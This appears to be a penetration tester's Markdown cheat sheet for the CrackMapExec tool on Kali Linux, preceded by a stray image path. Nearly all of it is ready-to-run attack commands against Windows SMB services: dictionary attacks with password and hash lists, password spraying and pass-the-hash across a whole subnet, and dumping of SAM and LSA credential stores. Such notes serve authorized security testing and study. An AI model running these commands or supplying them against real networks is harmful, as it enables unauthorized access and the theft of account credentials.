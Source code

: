 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
sudo apt install crackmapexec
```

```bash - kali
crackmapexec --help
```

#### [error] Is a directory
When you get the "Is a directory" error, just cd ../ and run again as shown below, so your target's IP folder is not there.  

![[Pasted image 20220107163056.png|1000]]

#### Dictionary attack (Hashes)
```bash - kali
crackmapexec smb $TARGET -u $HOSTNAME/$USERS_FILE -H $HOSTNAME/$HASHES_FILE
```

#### Dictionary attack (Passwords)
```bash - kali
crackmapexec smb $TARGET -u $USER -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User dictionary attack with single password
```bash - kali
crackmapexec smb $TARGET -u $USERS_FILE -p '$PASSWORD'
```

#### Spray username and hash
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -H $HASH
```

#### Spray username and password
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD
```

#### sam file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --sam
```

#### lsa file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --lsa
```
